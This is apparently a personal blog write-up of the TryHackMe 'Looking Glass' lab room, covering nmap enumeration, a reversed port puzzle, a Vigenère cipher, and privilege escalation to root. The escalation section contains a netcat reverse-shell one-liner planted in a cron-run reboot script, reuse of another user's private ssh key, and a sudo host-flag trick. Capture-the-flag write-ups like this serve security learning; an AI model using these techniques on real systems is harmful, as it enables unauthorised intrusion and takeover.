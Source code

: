 ```yaml
---
title: Looking Glass
published: 2023-09-20
description: 'A writeup of the tryhackme room looking glass.'
image: ''
tags: [Tryhackme]
category: 'Writeups'
project: 'Tryhackme Writeups'
draft: false 
---
```

# Looking Glass Room Writeup

## Enumeration

```BASH
sudo nmap -oA nmap/lookingglass -sV -sC -sS -vv -T4 10.10.144.200
```

There are a lot of open ports...

```BASH
ORT      STATE SERVICE    REASON         VERSION
22/tcp    open  ssh        syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
9100/tcp  open  jetdirect? syn-ack ttl 61
9101/tcp  open  jetdirect? syn-ack ttl 61
9102/tcp  open  jetdirect? syn-ack ttl 61
9103/tcp  open  jetdirect? syn-ack ttl 61
13782/tcp open  ssh        syn-ack ttl 61 Dropbear sshd (protocol 2.0)
...
```

nmap claims most of the ports are running the same service as 13782. I could not find any CVEs or known exploits for these services. I tried connecting to the dropbear ports.

```BASH
ssh -oHostKeyAlgorithms=+ssh-rsa 10.10.144.200 -p 9876
Connection to 10.10.144.200 closed.
```

If you are doing this box, you may be refused connection to these ports as they offer the `ssh-rsa` encryption for ssh. This is deprecated and so your host will refuse, adding the flag as shown will solve this issue.

We get a message saying `lower`, so lets try a lower port. Even when we try the lowest port we get `lower`. The instructions are reversed. Bracket until you find the right service, you may also need to try port numbers which didn't appear in the nmap scan.

## Exploitation

When we do find the right service, we are given a challenge, it is a cipher version of a poem. We can see the title at the top `Jabberwocky`.  We need to decipher the text, I used [boxentriq](https://www.boxentriq.com/code-breaking/vigenere-cipher). After finding the secret, we get some credentials. ssh into port 22 with them.

The user flag is in jabberwock's home directory, it is reversed.

## Privilige Escalation

`sudo -l` reveals we can reboot the computer as root. This gives us a hint to look at `/etc/crontab`, indeed a script in our home directory is being run on reboot as the user tweedledum. 

```BASH
@reboot tweedledum bash /home/jabberwock/twasBrillig.sh
```

Edit `twasBrillig.sh` with the following:

```BASH
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc $MY_IP 7777 >/tmp/f
```

This will give us a reverse shell for `tweedledum` (remember to start your nc listener). Run `sudo reboot` and after a minute we should have a shell for tweedledum. Let's stabilise the shell with:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl Z
stty raw -echo; fg
enter
```

In tweedledum's directory we have a string of hex `humptydumpty.txt`. If we take the output to [cyberchef](https://cyberchef.org/) we can decode the text with `from hex` and there is a password at the end. This is for the user humptydumpty.

As user humptydumpty we have execute permissions on alice's home folder, this is odd. Let's see if we can see any interesting files. Note you will not be able to list the directory but you will be able to execute the files there with a little guess work.

```BASH
ls -la alice/.ssh/id_rsa
```

This reveals a private key that we can use to ssh in as `alice`. Create a key file on your attacker machine and add the private key info. Make sure to `chmod 600 keyfile` when you're done.

```BASH
ssh -o "IdentitiesOnly=yes" -i aliceKey alice@10.10.144.200
Last login: Fri Jul  3 02:42:13 2020 from 192.168.170.1
alice@looking-glass:~$ 
```

I ran a [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) script earlier as humptydumpty and `alice` is able to run BASH as root on the host ssalg-gnikool.  

```BASH
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
```

This host is "looking-glass" reversed. Use the `-h` flag with the sudo command to specify host.

```BASH
sudo -h ssalg-gnikool /bin/bash
```

We are now root. The root flag is in the root directory (it's reversed).
